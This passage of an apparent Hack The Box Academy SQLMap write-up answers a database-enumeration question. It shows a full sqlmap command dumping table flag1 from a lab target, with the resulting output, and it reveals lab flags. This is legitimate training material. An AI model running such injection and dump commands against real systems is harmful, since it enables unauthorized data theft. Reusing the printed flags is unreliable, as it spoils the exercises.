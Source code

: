 
**Answer**

```
HTB{un173_7h3_un173d}
```

---

## Exercise - Database Enumeration

### Questions

#### Question #07

**Question**

What's the contents of table `flag1` in the `testdb` database? (Case #1)

![Firefox - Case1 GET Parameter (id)](./assets/screenshots/sqlmap_essentials_firefox_case1_get_parameter_id.png)

```javascript
--batch -D testdb -T flag1 --dump --no-cast
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://94.237.60.55:55207/case1.php?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.60.55:55207/case1.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch -D testdb -T flag1 --dump --no-cast

[SNIP]

[06:18:15] [INFO] fetching columns for table 'flag1' in database 'testdb'
[06:18:15] [INFO] fetching entries for table 'flag1' in database 'testdb'
Database: testdb
Table: flag1
[1 entry]
+----+-----------------------------------------------------+
| id | content                                             |
+----+-----------------------------------------------------+
| 1  | HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n} |
```